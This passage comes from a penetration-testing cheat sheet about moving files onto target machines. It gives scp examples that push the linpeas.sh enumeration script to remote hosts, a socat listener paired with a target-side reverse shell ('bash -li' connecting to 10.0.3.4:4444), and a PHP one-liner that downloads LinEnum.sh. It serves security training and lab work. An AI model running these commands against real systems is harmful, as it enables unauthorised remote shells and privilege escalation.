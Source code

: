 {% tab title="SSH (scp)" %}
{% code title="From local machine to remote host" %}
```sh
scp localfile username@remotehost:/path/to/destination/
```
{% endcode %}

{% code title="From remote host to local machine" %}
```bash
scp username@remotehost:/path/to/remotefile /local/path/
```
{% endcode %}

{% code title="Specific Port" %}
```bash
scp -P 47502 linpeas.sh user1@83.136.252.198:/home/user1
```
{% endcode %}

{% code title="With key" %}
```bash
scp -i ~/.ssh/key linpeas.sh professor@10.10.10.131:/home/professor/
```
{% endcode %}

{% code title="From local to Apache Server" %}
```bash
scp archivo.txt user@remote-server:/var/www/html/
```
{% endcode %}
{% endtab %}

{% tab title="Socat" %}
{% code title="Listener" %}
```sh
socat file:`tty`,raw,echo=0 tcp-listen:4444
```
{% endcode %}

{% code title="Target Machine" %}
```bash
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```
{% endcode %}
{% endtab %}

{% tab title="PHP" %}
{% code title="One liner" overflow="wrap" %}
```sh
php -r '$file = file_get_contents("https://<snip>/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'
```
{% endcode %}
{% endtab %}
{% endtabs %}

## <mark style="color:purple;">Windows</mark>
